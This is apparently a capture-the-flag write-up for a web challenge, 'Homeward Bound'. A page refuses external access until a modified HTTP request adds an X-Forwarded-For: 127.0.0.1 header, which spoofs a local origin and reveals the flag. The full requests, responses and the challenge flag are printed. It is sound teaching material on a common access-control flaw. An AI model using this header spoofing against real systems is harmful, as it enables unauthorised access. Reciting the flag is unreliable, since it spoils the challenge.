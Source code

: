 # Homeward Bound

Tags:

## Challenge

>Author: @JohnHammond#6971
>
>I can't get anything out of this website... can you find anything interesting?
>
>NOTE: That message is intended. This challenge is working as it should.
>
>Press the Start button on the top-right to begin this challenge.
>
>Connect with:
>
> http://challenge.nahamcon.com:32407


## Solving

### Original Request
```
GET / HTTP/1.1
Host: challenge.nahamcon.com:32407
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-CA,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


```
```
HTTP/1.1 200 OK
Date: Wed, 17 Mar 2021 12:02:56 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/7.0.33
Vary: Accept-Encoding
Content-Length: 1241
Connection: close
Content-Type: text/html; charset=UTF-8


Sorry, this page is not accessible externally.
```

### Modified Request
```
GET / HTTP/1.1
Host: challenge.nahamcon.com:32407
X-Forwarded-For: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-CA,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


```

`Welcome! Your internal access key is: flag{26080a2216e95746ec3e932002b9baa4}`


`flag{26080a2216e95746ec3e932002b9baa4}`

### Informations

https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For
https://docs.aws.amazon.com/elasticloadbalancing/latest/classic/x-forwarded-headers.html

